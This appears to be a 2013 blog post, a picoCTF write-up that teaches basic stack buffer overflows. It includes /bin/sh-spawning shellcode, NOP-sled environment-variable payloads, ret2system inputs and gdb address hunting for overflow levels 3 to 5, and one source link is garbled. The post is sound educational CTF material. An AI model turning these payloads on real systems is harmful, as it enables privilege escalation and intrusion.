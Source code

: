```yaml
---
layout: post
title:  "Buffer Overflows - The Basics"
date:   2013-05-06
---
```


Recently I competed in [picoCTF](https://picoctf.com/), a hacker CTF game, and thought I would share some of my solutions. The first of which, is how I did the buffer overflow(s). (for those that don't know, CTF consists of 'flags' which are special strings that you get by exploiting vulnerabilities in programs).

Lets start with what a basic vulnerable application would look like.

```c
     void function(char *str) {
       char buffer[16];
       strcpy(buffer,str);
     }
```
Now lets say we give that function a string which is longer than 16 characters. Instead of throwing an exception, it will happily write those bytes to the stack.

#### The Stack:
The stack is basically the program in memory (a&nbsp;continuous&nbsp;chunk). Here's how it looks (remember stacks are last in first out).

[ &nbsp; &nbsp; &nbsp;return address &nbsp; &nbsp; &nbsp; &nbsp; ] <-- <del>this is the address of the next funciton to call, we want to overwrite this</del>  
[ &nbsp; &nbsp; &nbsp; &nbsp; eip (address) &nbsp; &nbsp; &nbsp;&nbsp; ] <-- <del>this takes up memory</del>&nbsp;we want to overwrite this  
[ &nbsp; &nbsp; &nbsp; stack variable &nbsp; &nbsp; &nbsp; &nbsp; ] <-- this takes up memory  
[ &nbsp; &nbsp; &nbsp; &nbsp; &nbsp;buffer[15] &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; ] <-- this is the 16th character of our input string  
[ &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; ... &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; ]  
[ &nbsp; &nbsp; &nbsp; &nbsp; &nbsp;buffer[0]&nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp;] <-- our input starts here  

So the idea behind a buffer overflow, is to overflow the buffer:
(input: 'AAAA...AAAAEXECUTESHELLCODE')

[ &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; get shell &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp;] <-- this is the secret sauce  
[ &nbsp; &nbsp; &nbsp; &nbsp;0x41414141 &nbsp; &nbsp; &nbsp; &nbsp; &nbsp;] <-- overwrite garbage  
[ &nbsp; &nbsp; &nbsp;&nbsp;0x41414141&nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp;] <-- overwrite garbage  
[ &nbsp; &nbsp; &nbsp; &nbsp; &nbsp;0x41414141&nbsp; &nbsp; &nbsp; &nbsp; ] <-- 4 letter 'A's  
[ &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; ... &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp;]  
[ &nbsp; &nbsp; &nbsp; &nbsp; &nbsp;0x41414141&nbsp; &nbsp; &nbsp; &nbsp; ] <-- buffer starts here  

Now, before we get to the secret sauce, lets first understand how were gonna write those 'A' to the buffer.
` ./buffer_overflow $(python -c 'print "A"*28')  `

I use python, but you can use other languages too.

Ok, so now we have a bunch of A's on the stack. But how do we know how many we need?

To be honest, I'm not super sure. I know that its a multiple of 4 plus the buffer size (in this case 16). You can guess and check, but for me its usually buffer size + 12 bytes (12 A's). Sometimes you don't know how large the buffer is (eg. no source code). In this case, just put in a lot of A's until your at the sweet spot between Segmentation Fault, and proper execution. (ps, this could be over 1000 so guess wisely).

Alright, now we have&nbsp;overflowed&nbsp;the buffer with A's , lets look at the secret sauce.
[shellcode](http://en.wikipedia.org/wiki/Shellcode)&nbsp;([examples](http://www.exploit-db.com/shellcode/)). For picoCTF, we were given shellcode, but that's not always the case.

Here is the shellcode given to us (in hex):

```
00000000 31 c0 f7 e9 50 68 2f 2f 73 68 68 2f 62 69 6e 89 |1...Ph//shh/bin.|
00000010 e3 50 68 2d 70 69 69 89 e6 50 56 53 89 e1 b0 0b |.Ph-pii..PVS....|
00000020 cd 80                       |..|
```

When this piece of code gets executed, we get a shell. We want a shell to spawn because usually the [SUID](http://en.wikipedia.org/wiki/Setuid)&nbsp;of the binary is set to a&nbsp;privileged&nbsp;user, which allows use to read flags from the disk.

The way you add this shellcode (below is a different shellcode) to your buffer overflow, is to add it to an environment variable:

```bash
export EXPLOIT=$(python -c 'print "\x90"*1000+"\xeb\x18\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xb0\x0b\xcd\x80\xe8\xe3\xff\xff\xff/bin/sh"')
```

Notice the "\x90". This is a [NOP (no operation) sled](http://en.wikipedia.org/wiki/NOP_slide), which basically means that it gets skipped over as meaningless code (From what I understand, the NOP allows the memory address to be off by a bit and it will still work).

Then to find its memory address we have a small C program:

```c
	 #include <stdio.h>
     #include <stdlib.h>
     int main(int argc, char **argv) {
       printf("\n%p\n\n", getenv("EXPLOIT"));
       return(0);
     }
```

If you're on a 64 bit machine it may come out as more than 4 bytes. This means you need to re-compile the C program with the '-m32' flag (makes it 32 bit). (gcc -m32 -o tester tester.c)

You should now have an address like this: `0xbffff688`

So now, instead of giving it shellcode directly, we can give the program the address of it in memory.

Addresses are represented in [little endian](http://en.wikipedia.org/wiki/Endianness)&nbsp;so we write them backwards. The code looks like this:  
` ./buffer_overflow $(python -c 'print "A"*28+"\x88\xf6\xff\xbf")  `

Notice how it was reversed, in 1 byte chunks (2 digits). Also notice how python lets us write the arbitrary hex values using the escape sequence "\x00". (you can usually also just write the address a ton of times, eg:&nbsp;`"\x88\xf6\xff\xbf"*200`)  

That pretty much covers the basics of buffer overflows, stay tuned for a ROP tutorial (Return Oriented Programming) which can also be used to solve buffer overflow problems.

#### SPOILER ALERT:
The solution to picoCTF overflow 3 (has elements of ROP):  
`(overflow)` `(address of 'shell' function-found with gdb)`
`./buffer_overflow $(python -c 'print "A"*76   +  "\xf8\x85\x04\x08"')  `
    and overflow 4:  
`(put shellcode on stack)`               `(filler)`  `(the pointer to shellcode - shown in stack trace)`
`./buffer_overflow_shellcode $(cat shellcode)$(python -c'print "BB"+"A"*40+"\x40\xd5\xff\xff"') `

(alternate solution if not given stack trace):

```
 export EXPLOIT=$(python -c "print '\x90'*1000")$(cat shellcode)
```
(run environment program above to get its address: 0xffffd433 - Assumes no [ASLR](http://en.wikipedia.org/wiki/Address_space_layout_randomization))

```
./buffer_overflow_shellcode $(python -c "print '\x33\xd4\xff\xff'*200")
```
and overflow 5 (non-executable memory):                                                   `(overflow)` `(<system>)`     `(called)` `('/bin/sh' from environment)`

```
./buffer_overflow_shellcode_hard $(python -c 'print "A"*1036+"\x50\x82\xe6\xf7"+"sh;#" +  "\x11\xd8\xff\xff"')
```
(Note, the address for '/bin/sh' from gdb was&nbsp;0xffffd80f and wasn't working, so I just played with the address (increased by 1, then 1 more) until it worked - note also that I used gdb instead of the normal dump program above, as the address was different. This is because the stack got modified slightly during execution (out of our control). The <system> comes from ROP (found with gdb), so stay tuned for more info on that).
    gdb looked like this:

```
     (gdb) break main
     (gdb) run
     (gdb) x/s *((char **)environ)
     0xffffd805:      "EXPLOIT=/bin/sh"
     (gdb) x/s 0xffffd80d
     0xffffd80d:      "/bin/sh"
```
#### Update:
Getting environment variables does not always work (ie. overflow 5) so I came up with an alternate solution, using PATH and a string from the binary. Here is what the process looks like:

```
	 mkdir cmd
     cd cmd
     echo "cat /problems/stack_overflow_5_0353c1a83cb2fa0d/key" > a
     chmod +x a
     export PATH=/home2/user1792/cmd:$PATH
     cd /problems/stack_overflow_5_0353c1a83cb2fa0d
     gdb buffer_overflow_shellcode_hard
     (gdb) break main
     (gdb) run
     (gdb) find &system,+999999,"a"
     >> 0xf7e9e6ab #this is the address we will use
     >> 0xf7f0fb8e <setpriority+14>
     >> (cont.)
```

`(fill)`    `(system)`          `(junk)`    `("a" address)`

```
./buffer_overflow_shellcode_hard $(python -c 'print "A"*1036+"\x50\x82\xe6\xf7"+"AAAA" +"\xab\xe6\xe9\xf7"')
```

Here are some good sources for more information on buffer overflows:  
[http://insecure.org0xffffd7f0/stf/smashstack.html](http://insecure.org/stf/smashstack.html)  
[http://security.stackexchange.com/questions/13194/finding-environment-variables-with-gdb-to-exploit-a-buffer-overflow](http://security.stackexchange.com/questions/13194/finding-environment-variables-with-gdb-to-exploit-a-buffer-overflow)  
[http://raidersec.blogspot.com/2012/10/smash-stack-io-level-3-writeup.html](http://raidersec.blogspot.com/2012/10/smash-stack-io-level-3-writeup.html)  
